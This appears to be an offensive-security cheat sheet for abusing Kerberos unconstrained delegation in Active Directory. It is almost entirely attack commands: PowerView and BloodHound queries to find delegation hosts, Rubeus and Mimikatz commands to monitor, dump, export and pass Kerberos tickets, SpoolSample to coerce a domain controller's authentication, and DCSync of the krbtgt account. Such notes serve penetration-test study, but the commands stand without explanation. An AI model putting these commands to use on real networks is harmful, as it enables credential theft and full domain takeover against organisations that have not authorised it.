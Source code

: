## Powerview
```
Get-DomainComputer -Unconstrained
```

## BloodHound
```
MATCH (c:Computer {unconstraineddelegation:true }) RETURN c
```

## CobaltStrike
```
execute-assembly C:\tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10
[System.IO.File]::WriteAllBytes("Z:\backup\PTA\CRTE\tgt-sqladmin", [System.Convert]::FromBase64String($a))
```

## Covenant
```
Rubeus triage /luid:0x3c6cd2
Rubeus dump /luid:0x3c6cd2 /nowrap
Rubeus monitor /interval:5 /filteruser:[Name of DC]$
Rubeus createnetonly /program:C:\Windows\System32\cmd.exe
Rubeus ptt /luid:0x21d8e17 /ticket:[...snip...]
ImpersonateProcess 2768
```

## Mimikatz
```
privilege::debug sekurlsa::tickets
sekurlsa::tickets /export
kerberos::ptt [filename]
```

## spoolss to DC
```
execute-assembly C:\tools\SpoolSample\SpoolSample\bin\Release\Working_SpoolSample.exe [FROM] [TO] 
Assembly /assemblyname:"SpoolSample" /parameters:"CDC01 APPSRV01"
```

* check if running
```
PowerShell dir \\cdc01\pipe\spoolss
```

* fix format
```
tr -d '\040\011\012\015'
```

* Covenant
```
Rubeus monitor /interval:5 /filteruser:[Name of DC]$
Rubeus createnetonly /program:C:\Windows\System32\cmd.exe
Rubeus ptt /luid:0x21d8e17 /ticket:[...snip...]
ImpersonateProcess 2768
```

* mimikatz
```
lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
```

* Covenant
```
DCSync prod\krbtgt
```

* https://github.com/dirkjanm/krbrelayx

